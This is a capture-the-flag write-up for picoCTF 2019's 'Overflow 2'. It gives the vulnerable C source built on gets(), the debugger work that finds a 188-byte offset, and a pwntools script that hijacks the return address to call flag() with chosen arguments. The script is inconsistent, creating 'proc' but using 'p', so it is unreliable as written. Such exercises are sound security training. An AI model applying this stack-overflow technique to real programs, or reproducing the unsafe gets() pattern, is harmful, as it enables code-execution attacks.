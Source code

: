 [Back](PicoFrontPage.md)

# Overflow 2
---

### Tools
* GEF-GDB
* Pwntools - Python3
* Your favourite text editor

### Source Code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 176
#define FLAGSIZE 64

void flag(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xC0DED00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
Some important points:
* Different to overflow-1 because flag function takes arguments
* Calls `gets()` again

### Analysis

#### Static

So, like overflow-1, the program calls `gets()` so we can overflow that and take control of the return address (feed it `flag()` function's address).
If we `disassemble vuln`, we can see the stack build-up when the `vuln()` function is called.

<!-- disasvulnoverflow2 -->
![Image of GEF](../Images/PicoCTF2019/disasvulnoverflow2.jpg)

So, piecing all of it together, we can see the stack would probably look something like this:

<!-- StackOverflow2 -->
![Image of Stack](../Images/PicoCTF2019/StackOverflow2.jpg)

Doing the calculation: `0xb4 + 0x4 + 0x4 = 0xbc`.
Convert it to bytes through:
```
python
0xbc
```
And it should return 188 bytes

#### Dynamic

Let's confirm if what we assumed is right through dynamic analysis.
Use the cyclic tool to get a string to feed to the program: `cyclic 200`.

Run GDB for the program: `gdb ./vuln` and then `run`.

Feed the string to the input and then analyze.

<!-- OverflowedOverflow2 -->
![Image of overflowed](../Images/PicoCTF2019/OverflowedOverflow2.jpg)

We see that `waab` or `0x62616177` is what is stored as the return address.
And so using `cyclic -l waab` it confirms that it is 188 bytes to reach `$eip`.

#### Arguments

Arguments are actually thrown onto the stack before the instruction pointer.

We can `disassemble flag` to analyze the arguments for the `flag()` function.

<!-- Overflow2args -->
![Image of args](../Images/PicoCTF2019/Overflow2args.jpg)

This can also be seen through a disassembler.

<!-- Overflow2argsdisassembler -->
![Image of argsdisassembler](../Images/PicoCTF2019/Overflow2argsdisassembler.jpg)
<!-- Overflow2argsdisassembler2 -->
![Image of argsdisassembler2](../Images/PicoCTF2019/Overflow2argsdisassembler2.jpg)

We can see that the arguments `0xdeadbeef` and `0xc0ded00d` are stored on the stack at `ebp + 0x8` and `ebp + 0xc`, respectively.
To help you visualize:

<!-- StackOverflow2WithArgs -->
![Image of StackOverflow2WithArgs](../Images/PicoCTF2019/StackOverflow2WithArgs.jpg)

Now, do the classic, find out the `flag()` address.

### Exploit

Final script:
```python
from pwn import *

proc = process('./vuln')

# addr and arg variables
addr = 0x80485e6
arg0 = 0xDEADBEEF
arg1 = 0xC0DED00D

# create payload of 188 + return address + 4 bytes + arg1 + arg2
payload = b'A'*188 + p32(addr) + b'A'*4 + p32(arg0) + p32(arg1)

p.recvuntil(b'Please enter your string:')

p.sendline(payload)

p.interactive()
```

Run the script and you should win.

[Overflow 1](overflow1writeup.md)